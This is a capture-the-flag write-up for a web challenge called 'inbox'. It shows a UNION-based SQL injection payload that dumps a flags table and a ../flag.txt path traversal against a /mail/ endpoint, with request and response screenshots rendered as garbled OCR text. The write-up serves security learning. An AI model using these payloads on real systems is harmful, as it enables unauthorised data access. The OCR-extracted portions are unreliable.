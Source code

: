 # inbox
> I heard this email server has two halves of a whole flag in it!

## About the Challenge
We were given a website without the source code and there are some functionality such as:
* Search users
* Read an email


[Image extracted text: Search for users
email
Submit
Our most popular users
alice@fakeinbox com
bob@fakeinbox.com
charlie@fakeinbox com]


## How to Solve?
If there's a search feature in this website, the first vulnerability that comes to my mind is SQL injection. First, I tried UNION-based SQL injection:


[Image extracted text: https:IIthecybercoopctf-inbox chals iolusers/search?query-%27+union%2Oselect%201,2--%20-
Results
1 - 2
1
alice@fakeinbox com
2
bob@fakeinbox com]


As we can see here, the website is vulnerable to SQL injection. In order to obtain the flag, we need to read a `flags` table using this payload."

```
' UNION SELECT (SELECT flag from flags),2-- -
```


[Image extracted text: https:IIthecybercoopctf-inbox chals io/users/search?query-%27+union%2Oselect%20(select%2Oflag%2Ofrom%2Oflags) ,2--%20-
Results
1
alice@fakeinbox com
2
bob@fakeinbox com
3
charlie@fakeinbox com
flag{off_to_a_good_start _
2]


We got the first path! And now we need to get the second part.There's a path traversal vulnerability in `/mail/` endpoint. When I tried a random string (Ex: `/main/test`). The output:


[Image extracted text: Request
Response
Pretty
Raw
Hex
3)
In
=
Pretty
Raw
Hex
Render
GET
Imail/test HTTP/1.1
Host:
thecybercoopctf-inbox. chals
io
Error:
ENOENT:
no
such
file
or
directory,
scandir
{mail/test
User-Agent
Mozilla/5 .0
(Windows
NT
10.0;
Win64;
X64)
AppleWebKit/537.36
(KHTML ,
at
readdirSync (fs.js:1043:3)
like
Gecko)
Chrome_
120.0.6099
71
Safari/537.36
at
/usrfsrc/app/ index.js:61:3
Accept:
at
Layer-handle
[as
hand
request]
(Zusrisrc/app/node_modules/expressfl:
text/html,application/xhtml+xml,application/xml;q=0.9, image/avif _
image/webp, image/a
at
next
(/usr/src/app/node
modulesfexpress/libfrouter/route.js: 144:13)
png
*/*;q=0.8,application/signed-exchange;v=b3;q-=0.7
at
Route-dispatch
(Tusrfsrc/applnode_
modules/express/lib/ router/route.js:
5
Sec-Fetch-Site
none
at
Layer-handle
[as
hand
request]
(/usr/src/app/node_
modules/expressfl:
6
Sec-Fetch-Mode
navigate
at /usr/src/app/node_
modulesfexpress/libfrouterfindex. js: 284:15
Sec-Fetch-User:
21
at
param
(/usr/src/app/node_modules/express/ lib/router/index.js:365:14)
Sec-Fetch-Dest:
document
9
Accept-Encoding
gzip,
deflate
br
at
param
(Tusr/src/app/node_
modules/express/ libfrouterfindex-js
376:14)
10 Accept-Language
en-US, en;q-0.9
at
Function.process_params
(/usr/src/appnode_modules/express/Lib/router,
11
Priority:
u=0
12
Connection:
close
le_
le_]


To obtain the second part of the flag, we can use the `../flag.txt`


[Image extracted text: Request
Response
Pretty
Raw
Hex
3)
In
=
Pretty
Raw
Hex
Render
GET
Imail/
Iflag
txt HTTP/1.1
HTTP/1.1
200
OK
Host:
thecybercoopctf_inbox. chals. iol
2
X-Powered-By=
Express
User-Agent:
Mozilla/5.0
(Windows
NT
10.0;
Win64;
X64)
AppleWebKit/537
36
(KHTML ,
3 Content-Type
text/plain;
charset-utf-8
like
Gecko)
Chrome/120 _
0.6099.71
Safari/537.36
Content-Length:
26
Accept:
5
W/" 1a-mZaaGNncQH4RSioCGM3epCwhyuc"
text/html,application/xhtml+xml,application/xml;
9 , image/avif , image/webp, image/a
6
Date:
Tue
19
Dec
2023
02:09:50
GMT
png,*/*;9-0.8,application/signed-exchange;v=b3;q=0.7
Connection:
close
5
Sec-Fetch-Site:
none
Sec-Fetch-Mode:
navigate
even_better_finish_though}
Sec-Fetch-User:
21
Sec-Fetch-Dest:
document
Accept-Encoding
gzip,
deflate,
br
10
Accept-Lanquaae
en-US
en; a=0
ETag:
q=0.]


```
flag{off_to_a_good_start_even_better_finish_though}
```